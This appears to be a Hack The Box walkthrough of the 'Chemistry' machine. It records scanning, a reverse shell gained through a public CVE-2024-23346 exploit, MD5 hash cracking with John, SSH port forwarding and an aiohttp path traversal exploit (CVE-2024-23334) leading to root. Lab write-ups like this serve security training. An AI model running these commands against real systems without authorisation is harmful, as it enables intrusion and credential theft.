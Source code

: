 ![](images/image0.png)

# Chemistry HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.170 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.170 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.170 -v --script vuln -oN nmap_vuln.txt
```

![](images/image5.png)

---

## Web Enumeration

On **port 5000**, we see a frontend:

![](images/image3.png)

After registering, we see this upload screen that allows `.cif` file uploads.

![](images/image1.png)

---

## Exploiting CVE-2024-23346

A quick search revealed **CVE-2024-23346** affecting the application.

![](images/image7.png)

We used the following PoC exploit:  
🔗 [https://github.com/Sanity-Archive/CVE-2024-23346](https://github.com/Sanity-Archive/CVE-2024-23346)

```bash
python3 CVE-2024-23346.py -t http://10.129.231.170:5000 -u test -p test -l 10.10.15.30
```

![](images/image8.png)

After execution, we gained a reverse shell.

---

## Post-Exploitation

Exploring the `/instance` folder revealed **credentials** — usernames with **password hashes**.

![](images/image6.png)

We noticed the user **rosa**, so we attempted to crack her hash.

![](images/image11.png)

The registered hash format was **MD5**, so we cracked it using John:

```bash
john --format=raw-md5 --wordlist=rockyou.txt hash.txt
```

![](images/image4.png)

---

## SSH Access as Rosa

Using the cracked credentials, we logged in:

```bash
ssh rosa@10.129.231.170
```

![](images/image16.png)

User flag was found on Rosa’s desktop.

---

## Internal Enumeration

Checking listening ports:

```bash
netstat -ntlpu
```

![](images/image13.png)

Found an internal service on **port 8080**.

We performed SSH port forwarding:

```bash
ssh -L 8080:localhost:8080 rosa@10.129.231.170
```

Accessing `http://localhost:8080` showed an internal **site monitoring tool**.

![](images/image12.png)

Curling the site showed it was using **aiohttp/3.9.1**.

![](images/image10.png)

---

## Exploiting CVE-2024-23334 (aiohttp)

Found vulnerability **CVE-2024-23334** for aiohttp.

![](images/image17.png)

Reference:  
🔗 [https://github.com/z3rObyte/CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)

Enumerated endpoints:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://localhost:8080/FUZZ -s
```

![](images/image9.png)

Modified exploit payload and executed:

![](images/image15.png)

```bash
chmod +x exploit.sh
./exploit.sh
```

![](images/image14.png)

---

## Root Flag

Successfully exploited the aiohttp vulnerability and retrieved **root flag**.

🎯 **Full System Compromise Achieved**

---
